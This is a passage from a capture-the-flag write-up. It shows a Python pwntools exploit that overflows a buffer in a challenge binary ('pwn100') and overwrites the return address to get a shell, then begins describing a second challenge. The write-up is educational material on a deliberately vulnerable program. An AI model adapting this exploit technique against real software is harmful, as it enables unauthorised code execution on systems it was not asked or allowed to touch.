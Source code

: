 All I had to do now to get a shell was to replace the Bs in my script with the address `0x4007f7`. Running this script would give me a shell.
```python
#!/usr/bin/env python3
from pwn import *

p = process("./pwn100")
gdb.attach(p, "b *do_main+189\nc")
# p = remote("challenges.ctfd.io", 30429)

p.sendline("1")
payload = ""
for x in range(0, 316):
    payload += chr(x % 256)
payload = payload.encode('UTF-8')
payload += p64(0x4007f7)
p.sendline(payload)

p.sendline("3")
p.interactive()
```

### Cereal Creator 2
This binary, which you can download [here](../../../assets/other/2021-1-9-lm-cyber-ctf-writeups-for-pwn-and-web-challenges/pwn200), was very similar to the last one, and it also had the NX bit enabled.

```sh
$ ./pwn200
[1] Add Cereal flavor
[2] Add milk
[3] Eat
[4] exit
1
get ready to add some cereal!!

current buf: BowlWhat kind of cereal would you like to add to your bowl?
AAAAAAAAAAAAAAAAAAAAAAAAAA
adding cereal into your bowl
added cereal to bowl
[1] Add Cereal flavor
[2] Add milk
[3] Eat
[4] exit
2
pooring milk ...
[1] Add Cereal flavor
[2] Add milk
[3] Eat
[4] exit
3
eating our bowl
Bowl, AAAAAAAAAAAAAAAAAAAAAAAAAA with milk, was a great bowl of cereal
```
